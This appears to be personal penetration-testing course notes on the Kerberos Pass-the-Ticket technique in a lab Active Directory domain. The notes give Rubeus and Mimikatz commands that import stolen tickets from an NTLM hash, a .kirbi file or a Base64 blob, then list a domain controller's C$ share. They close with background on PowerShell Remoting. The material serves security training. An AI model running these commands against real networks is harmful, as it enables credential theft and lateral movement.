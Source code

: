 # Pass the Ticket (PtT)
---
- Now that we have some Kerberos tickets, we can use them to move laterally within an environment.
- With `Rubeus` we performed an OverPass the Hash attack and **retrieved the ticket in Base64 format.** 
- Instead, **we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.**

## Rubeus - Pass the Ticket
- `Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt`
- Note that now it displays **`Ticket successfully imported!`.**
- Another way is to import the ticket into the current session using the `.kirbi` file from the disk.
- Let's use a ticket **exported from Mimikatz and import it using Pass the Ticket.**

## Rubeus - Pass the Ticket using .kirbi from Mimikatz
- `Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`
- `dir \\DC01.inlanefreight.htb\c$`
	- ![[Pasted image 20250704055622.png]]

- We **can also use the Base64 output from Rubeus or convert a .kirbi to Base64 to perform the Pass the Ticket attack**. 
- We can use PowerShell to convert a .kirbi to Base64.

## Convert .kirbi to Base64 Format
- `[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))`

## Pass the Ticket - Base64 Format
- `Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/...SNIP...`

- Finally, we can also perform the **Pass the Ticket attack using the Mimikatz module `kerberos::ptt` and the .kirbi fil**e that contains the ticket we want to import.

## Mimikatz - Pass the Ticket
- `privilege::debug`
- `kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`
- `dir \\DC01.inlanefreight.htb\c$`:
	- ![[Pasted image 20250704055910.png]]

# Pass The Ticket with PowerShell Remoting (Windows)
---
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) **allows us to run scripts or commands on a remote computer.** 
- Administrators often use PowerShell Remoting to manage remote computers on the network. Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.
- To create a PowerShell Remoting session on a remote computer, **==you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions==** in your session configuration.
